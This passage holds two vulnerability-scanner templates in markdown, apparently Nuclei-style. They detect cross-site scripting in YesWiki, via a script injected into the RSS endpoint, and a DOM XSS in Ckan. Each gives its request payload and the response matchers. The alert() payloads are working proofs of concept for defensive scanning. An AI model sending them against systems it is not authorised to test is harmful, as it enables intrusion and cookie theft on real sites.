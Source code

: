 - severity - high
- tags - yeswiki,unauth,huntr,cve,cve2022,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/?PagePrincipale/rss&id=1%27%3Cscript%3Ealert(document.domain)%3C/script%3E
### Matchers

**Type - word**
- part - body
- words
    1. \<script>alert(document.domain)\</script>
    2. Query failed:
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Ckan - DOM Cross-Site Scripting
## Description
- Ckan contains a cross-site scripting vulnerability in the document object model via the previous version of the jQuery Sparkle library. An attacker can execute arbitrary script and thus can steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - dom,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/?{alert(1)}
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. \<option value="/en/?{alert(1)}" selected="selected">
